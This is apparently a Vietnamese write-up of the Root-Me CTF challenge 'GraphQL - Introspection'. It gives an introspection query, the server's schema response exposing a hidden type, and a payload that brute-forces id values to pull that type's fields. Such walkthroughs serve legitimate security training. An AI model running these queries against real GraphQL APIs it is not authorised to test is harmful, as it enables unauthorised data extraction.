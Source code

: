 ## ROOT-ME
## GraphQL - Introspection

Show thông tin về column: `{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}`

Server trả về như sau (mình đã bỏ đi những thứ không cần thiết và JSON.stringify() nó, để dễ nhìn thì các bạn cho vào [đây](https://codebeautify.org/jsonviewer) nhé)

```json
{"data":{"__schema":{"types":[{"name":"Rocket","fields":[{"name":"id","args":[]},{"name":"name","args":[]},{"name":"country","args":[]},{"name":"is_active","args":[]}]},{"name":"Int","fields":null},{"name":"String","fields":null},{"name":"IAmNotHere","fields":[{"name":"very_long_id","args":[]},{"name":"very_long_value","args":[]}]},{"name":"Query","fields":[{"name":"rockets","args":[{"name":"country","description":null,"type":{"name":null,"kind":"NON_NULL","ofType":{"name":"String","kind":"SCALAR"}}}]},{"name":"IAmNotHere","args":[{"name":"very_long_id","description":null,"type":{"name":null,"kind":"NON_NULL","ofType":{"name":"Int","kind":"SCALAR"}}}]}]}]}}}
```

Để extract data ta cần để ý đến phần query, ở đây nó yêu cầu có giá trị id trong query. Và để extract data, ta dùng payload sau:
```js
{IAmNotHere(very_long_id: brute_force_this_id_value) {very_long_id,very_long_value}}
//brute_force_this_id_value là id chúng ta nhập vào để brute force ví dụ như 1,2,3.
//Và very_long_id,very_long_value là 2 trường ta cần lấy dữ liệu
```
Tham khảo:
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#summary
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql